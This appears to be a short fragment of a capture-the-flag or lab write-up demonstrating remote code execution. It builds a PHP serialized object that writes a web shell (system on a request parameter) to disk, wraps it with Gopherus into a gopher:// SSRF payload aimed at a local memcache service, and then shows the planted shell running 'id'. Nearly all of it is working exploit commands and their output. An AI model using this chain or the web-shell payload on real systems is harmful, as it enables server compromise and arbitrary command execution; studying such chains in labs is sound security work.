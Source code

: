 $ php payload.php
O:6:"Logger":2:{s:12:"Loggerfile";s:6:"pb.php";s:12:"Loggerdata";s:30:"<?php system($_REQUEST["pb"]);";}


gopherus --exploit phpmemcache 
put the payload above in this to create a gopher payload
now replace Spyder with 127.0.0.1 to make sure it works for us via ssrf

curl "gopher://127.0.0.1:11211/_%0d%0aset%20127.0.0.1%204%200%20104%0d%0aO:6:%22Logger%22:2:%7Bs:12:%22Loggerfile%22%3Bs:6:%22pb.php%22%3Bs:12:%22Loggerdata%22%3Bs:30:%22%3C%3Fphp%20system%28%24_REQUEST%5B%22pb%22%5D%29%3B%22%3B%7D%0d%0a"
ERROR
STORED
ERROR


$ curl 127.0.0.1/testapp/logs/pb.php?pb=id
uid=33(http) gid=33(http) groups=33(http)
